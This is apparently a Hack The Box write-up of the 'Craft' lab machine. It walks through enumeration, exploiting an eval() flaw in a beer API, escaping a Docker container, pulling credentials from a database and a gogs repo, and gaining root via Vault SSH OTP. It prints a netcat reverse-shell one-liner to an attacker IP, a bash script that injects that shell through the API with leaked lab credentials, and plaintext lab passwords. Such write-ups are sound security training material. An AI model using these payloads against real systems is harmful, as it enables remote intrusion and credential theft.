# Hack The Box: Craft machine write-up

Craft is a medium-rated machine which I found really realistic in the sense that we enumerate an initial webpage to find two domains, one has a gogs instance ([gogs](https://gogs.io/) is, according to their website, a "painless self-hosted git service") while the other is a API in development. From there we can exploit some flaws to get to a docker instance which contains a database with some credentials that can be used to get into the machine through SSH. Then, we find an uncommon file and come up against a "vault" service, which stores passwords, credentials, certificates (all the juicy stuff). From there we can SSH using that service as root using a one time password (OTP).

Besides, it's also based on Sillicon Valley, which makes it way more cooler!

Let's dig in! The IP of the machine is ``10.10.10.110`` and, as always, I included it in my ``/etc/hosts`` file as `craft.htb`.

### Enumeration

I start by enumerating open ports to discover the services running in the machine. I fire up nmap:

*Result of nmap scan*

```sh
# Nmap 7.70 scan initiated Tue Jul 16 18:55:29 2019 as: nmap -sV -sC -oN nmap/initial craft.htb
Nmap scan report for 10.10.10.110
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey:
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
443/tcp open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
| tls-nextprotoneg:
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul 16 18:55:52 2019 -- 1 IP address (1 host up) scanned in 22.45 seconds
```

Okay so not too much, just SSH and a web server over HTTPS. We'll look at the second one for now.

#### Port 443 enumeration

Upon visiting the webpage I find that there is an API in development and by checking the two links on the top right corner I get two domains: `gogs.craft.htb` and `api.craft.htb`.

*Webpage found on port 443*



*Domains found*



My `/etc/hosts` file has therefore these lines among others:

```
10.10.10.110    craft.htb
10.10.10.110    gogs.craft.htb
10.10.10.110    api.craft.htb
```

#### Enumerating `api.craft.htb`

We can see that the box is using Swagger UI, which is a tool to visualize and interact with the API's barebones.

*API details with Swagger UI*



I played a bit with it to come up with the following:

* There is authentication in place carried out under the endpoint `/auth`. But we don't have credentials.
* The actions related to beer in the `/brew` endpoint perform operations on a database, so there may be extra information in there.

I decided to move on to `gogs.craft.htb`, as there wasn't anything too interesting, I just learned the main functionality of the API.

#### Enumerating `gogs.craft.htb`

*Main page of gogs*



I went to the explore tab to find that there was one repository that contained the source code of the API:

*Explore tab*



*API repository*



I noticed that there were 6 commits and 2 issues (one already solved) on the repo, so I started going through them before actually checking the code. Another important detail was that there are three users: denish, erlich and gilfoyle.

I found some credentials for `dinesh` on one of the commits:

*Found credentials on a commit*



There was as well a fix for an issue with the ABV validation. Well, a fix. It used Python's `eval()` function, which is dangerous.

*Vulnerable piece of code*



Then, inspecting the code I noticed that there were some credentials and secrets for the database connection inside `settings.py`. However, that file wasn't on the repository as confirmed by the content of `.gitignore`.

*Importing data from `settings.py` for the db connection*



#### Exploiting the API

As the vulnerable code which executed eval needed authentication I came up with the following strategy:

1. With the credentials found before `dinesh:4aUh0A8PbVJxgd`, authenticate on `/auth/login` and get a token.
2. Call the function that executes the vulnerable eval function under `/api/brew`.
3. Use that eval function to get a reverse shell.

I had trouble getting a shell that worked but I finally found this one:

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.56 8080 >/tmp/f
```

To automate all the boring process I wrote a quick bash script to do everything for me, I just needed to run the script and set up a netcat listener to get the connection:

*Getting a reverse shell*



Here is the bash script I wrote (I'm sure the token extraction part can be improved):

```sh
#!/bin/bash

untrimmed=$(curl -k -s -u dinesh:4aUh0A8PbVJxgd -X GET "https://api.craft.htb/api/auth/login" -H  "accept: application/json" | cut -d':' -f2)
token=${untrimmed:1:-2}

curl -k -H "X-Craft-API-Token:$token" -X POST "https://api.craft.htb/api/brew/" --data '{"name":"bullshit","brewer":"bullshit", "style": "bullshit", "abv":"__import__(\"os\").system(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.13.39 8080 >/tmp/f\")"}' -H "Content-Type:application/json"
```

#### Getting out of docker

I thought I was inside the system but there was something weird going on: there was no user under `/home`, I was root and there was a `.dockerenv` file on `/`. I was inside a docker container!

First things first, I remembered that the API had that `settings.py` file which wasn't on the gogs repo but should be on the container. So I navigated to `/opt/app/craft_api/` and was able to read it:

*Contents of `settings.py`*



I tried to use the credentials to log in as the users through SSH and also in gogs but no luck. Then, the database came to my mind.

There was a `dbtest.py` file under `/opt/app` so after modifying it the database could be queried!

The changes made were:

* A loop was added so that the enumeration was easier (like a command line)
* A line was changed from

```py
result = cursor.fetchone()
```
 to

 ```py
 result = cursor.fetchall()
 ```

This was because the first method only gets the first row returned from the query whereas the last one returns all of them, which is what we need.

Then, the script turned out to be like this:

```py
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try:
	with connection.cursor() as cursor:
		while True:
			sql = input("SQL > ")
			cursor.execute(sql)
			result = cursor.fetchall()
			print(result)

finally:
    connection.close()
```

With the script I found a table called `users` which returned the passwords of all the users on the system!

*Extracting information from the database*



With those credentials I thought I would be able to log in as one user using SSH and that would be the user but it turned out I was wrong. After trying all combinations I remembered the gogs service, maybe there was something else on one of the other accounts.

I managed to log in as `gilfoyle` and success! There was a private repo which contained SSH private keys!

*Finding the private repo and getting the SSH keys*







Now I could log in as `gilfoyle` to the box using the key. But wait, I still got asked for a password! I googled it and found that it was common practice to use SSH keys alongside passphrases. Well, I already had the pass from the database, so I tried it and was in!

*Getting user*



#### Privilege escalation

After reading the flag I noticed a weird file on `gilfoyle`'s directory: `.vault-token`. A google search revealed that it was part of `vault`, which is a [service](https://www.vaultproject.io/) that stores data safely as secrets on a machine. The privilege escalation had to be based on it!

*Weird file on home dir*



I started poking at the documentation and things and eventually found that tokens can be dynamically generated for user authentication into a system. I found that there was an option to log in as a user via one time password (OTP): https://learn.hashicorp.com/vault/secrets-management/sm-ssh-otp

I listed the roles with `vault list ssh/roles` and obtained one result: `root_otp`. Good, OTP with root!

I tried with `vault ssh root@localhost` and, as it was my first attempt I didn't even need to specify the role and mode, I just copied the OTP and was in!

*Getting root*

